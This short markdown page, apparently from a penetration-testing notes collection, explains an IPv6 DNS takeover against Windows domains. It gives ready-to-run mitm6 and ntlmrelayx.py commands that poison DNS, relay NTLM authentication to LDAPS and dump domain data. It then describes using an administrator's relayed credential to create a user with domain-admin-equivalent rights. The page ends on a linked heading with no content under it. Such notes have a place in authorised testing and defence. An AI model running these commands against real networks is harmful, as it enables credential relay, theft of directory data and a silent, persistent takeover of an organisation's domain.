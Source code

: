 # DNS Takeover via IPv6

Most networks today run entirely off IPv4. However, many networks are still configured to run via IPv6 as well. By mimicking a DNS server and responding to IPv6 requests, you can gather domain information and forward hashes to gain access in the environment.

## DNS takeover via IPv6 to gather domain information or create a new domain administrator

* Start MITM6 listener

```bash
mitm6 -d $DOMAIN_NAME
```

* Start relay
  * $WPAD: Fake WPAD. Pretty inconsequential. Example: fakewpad.marvel.test
  * $LOOT_DIRECTORY: Attacker-local path to dump collected domain information (domain users, domain computers, domain users by group, domain policies, domain trusts)

```bash
ntlmrelayx.py -6 -t ldaps://$TARGET -wh $WPAD -l $LOOT_DIRECTORY
```

* Every 30 minutes from reboot domain computers will requery their DNS name, triggering the attack. If the attack succeeds, domain information will be dumped in **$LOOT_DIRECTORY**.
* When a domain administrator logs into a machine in the domain, ntlmrelayx.py will leverage their credential to create a new domain user account that isn't necessarily a domain administrator, but through the use of a custom ACL wields the same amount of power as a domain administrator.

## [Impersonate user on a target computer (to dump hashes)](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

